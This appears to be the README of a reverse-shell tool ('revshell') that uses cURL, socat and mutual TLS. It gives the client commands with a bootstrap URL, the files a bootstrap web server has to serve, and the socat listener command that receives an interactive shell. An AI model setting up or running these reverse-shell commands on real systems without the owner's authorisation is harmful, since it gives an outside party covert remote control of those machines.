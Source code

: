 # revshell
#### Unsneaky and somewhat ghetto reverse shell with mutual TLS authentication, using cURL and socat

## Introduction
This simple reverse shell can be used to establish an encrypted and authenticated connection back to your remote host.  
Besides that, you even get a fully interactive shell - tab complete all day long, if you wish to do so.  
  

The reverse connection is configured using a bootstrap URL, provided either by a command line argument or environment variables.
To gracefully stop the process, create a file called "/tmp/kill_revshell" (must be owned by the same UID).

## Usage

### Client - Command line argument
```
$ revshell "https://example.com/bd7751b6ec39"
```

### Client - Environment variables
```
$ export REVSHELL_BOOTSTRAP_URL="https://example.com"; export REVSHELL_BOOTSTRAP_TOKEN="bd7751b6ec39"
$ revshell
```

### Bootstrap provider
```
$ mkdir /var/www/html/bd7751b6ec39
$ echo -n "shell.example.com:443" > /var/www/html/bd7751b6ec39/endpoint
$ cp ca/keys/ca.crt /var/www/html/bd7751b6ec39/ca
$ cat ca/keys/client.crt ca/keys/client.key > /var/www/html/bd7751b6ec39/cert
```

### Server
```
$ cat ca/keys/shell.example.com.crt ca/keys/shell.example.com.key > ca/keys/server.pem
$ socat file:`tty`,raw,echo=0 openssl-listen:443,reuseaddr,cert=ca/keys/server.pem,cafile=ca/keys/ca.crt
```
